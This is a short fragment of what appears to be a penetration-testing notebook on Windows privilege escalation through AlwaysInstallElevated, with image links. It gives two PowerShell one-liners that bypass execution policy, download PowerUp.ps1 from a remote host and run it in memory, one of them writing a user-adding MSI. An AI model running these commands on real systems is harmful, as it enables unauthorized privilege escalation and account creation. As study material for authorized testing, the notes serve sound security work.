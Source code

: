 	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/powertools/PowerUp/PowerUp.ps1');Get-RegAlwaysInstallElevated"
![image](/assets/Pentest_Note/master/img/157.png)

	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/powertools/PowerUp/PowerUp.ps1'); Write-UserAddMSI"
	普通用户执行安装
![image](/assets/Pentest_Note/master/img/158.png)
![image](/assets/Pentest_Note/master/img/159.png)

